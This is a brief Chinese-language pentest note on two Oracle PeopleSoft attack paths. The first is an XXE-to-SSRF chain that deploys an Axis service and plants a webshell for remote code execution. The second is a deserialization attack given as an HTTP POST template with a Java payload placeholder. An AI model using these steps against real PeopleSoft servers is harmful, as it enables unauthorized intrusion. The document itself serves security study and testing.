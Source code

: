 主要有两种方式：
### XXE to RCE
#### 原理
```
利用[CVE-2013-3821]/PSIGW/HttpListeningConnector的XXE;

使用XXE的GET型SSRF的功能;

找到Axis服务:/pspc/services

网络访问Axis服务发现Axis需要认证401，转而尝试使用本地访问Axis

访问/psp/ps/signon.html，从响应的Set-Cookie: xxx-80-PORTAL-PSJSESSIONID中提取出localhost监听的Axis端口号: 80

利用Axis的特性，将本需要用POST请求的部署Service的方式利用一个trick用GET型请求替代，实现了使用XXE(GET型SSRF)部署localhost的Axis的Service的目的

使用Axis的copy等指令将webshell转移到指定目录，实现webshell上传

访问webshell，实现RCE.
```

### 反序列化
```http
POST /monitor/%SITE_NAME% HTTP/1.1
Host: PeopleSoft:PORT
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:51.0)
Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Cookie:a=aa

§JAVA_SERIAL§

%SITE_NAME% - is a PeopleSoft "name" to get it you can use some information
```

### 参考
- [Oracle PeopleSoft漏洞整理](https://mp.weixin.qq.com/s/VfLmgSrry28hx9xrunpp7A)
